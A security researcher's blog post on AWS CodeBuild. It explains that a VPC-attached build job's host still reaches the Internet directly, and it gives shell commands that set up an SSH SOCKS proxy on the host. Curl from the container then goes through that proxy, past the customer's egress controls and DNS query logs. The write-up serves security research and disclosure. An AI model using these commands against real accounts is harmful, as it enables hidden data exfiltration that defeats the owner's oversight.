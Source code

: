 ```yaml
---
layout: post
title: AWS VPC data exfiltration using CodeBuild
date: 2022-02-03 15:48:52 +1100
categories: blog
---
```


In September 2020, I published a [guest blog post][ian-blog] on [Ian Mckay][ian]'s
blog. The tl;dr is that "escaping" a privileged container running in an Amazon-managed
AWS account isn't a security concern for Amazon, thanks to defence-in-depth on
both an EC2 and IAM level. Here's a few paragraphs I left out of that blog post
at the time and was recently reminded of.

## But wait, there's more

As Corey said in the tweet at the start of that story, you _can_ grant CodeBuild
access to resources in your own VPC. CodeBuild is much like AWS Lambda in that 
regard: by default it has public Internet connectivity *or* you can allow it to
attach to your VPC to access internal resources. 

A [tweet by @amcabee13][anna-tweet] on her favourite topic of IP addresses for
VPC-unattached Lambdas got me thinking: some people attach Lambdas to VPCs 
because then it allows more observability and control over data egress, i.e. 
connections out to the Internet. The same goes for CodeBuild jobs: traffic will
now reach the Internet through whatever egress path you have and the associated 
security controls (firewalls, etc). But what about the EC2 instance the CodeBuild
container is running on - it's still in the AWS-managed VPC?

So naturally, I went back and checked. Running commands in the container had 
connectivity to the VPC. And running them on the host had connectivity directly 
to the public Internet, unassociated with the customer's (my) VPC. Could this 
make for very convenient data exfiltration? The answer is: yes, quite easy! 

First, run commands like these on the CodeBuild **host**:

```
ssh-keygen
cat ~/.ssh/id_rsa.pub > /home/ec2-user/.ssh/authorized_keys
ssh -f -N -D 169.254.170.8:1080 ec2-user@localhost
```

Now in the CodeBuild **container** you can run:

```
# this is routed through the customer VPC
curl http://10.1.2.3/internal 

# this is routed through the AWS VPC, bypassing your VPC egress routing tables
curl --socks4a 169.254.170.8:1080 https://google.com  
```

Pay careful attention to the `a` at the end of that `--socks4a` flag. If you 
instead pass `--socks4` everything will work, but the DNS resolution of `google.com` 
will be done by the container and your malicious DNS queries could be recorded 
by [Route 53 Resolver Query Logs][query-logs] in the customer VPC, not the AWS VPC.


[ian-blog]: https://onecloudplease.com/blog/security-september-escaping-codebuild
[ian]: https://twitter.com/iann0036
[anna-tweet]: https://twitter.com/amcabee13/status/1300541996738715649
[query-logs]: https://aws.amazon.com/blogs/aws/log-your-vpc-dns-queries-with-route-53-resolver-query-logs/
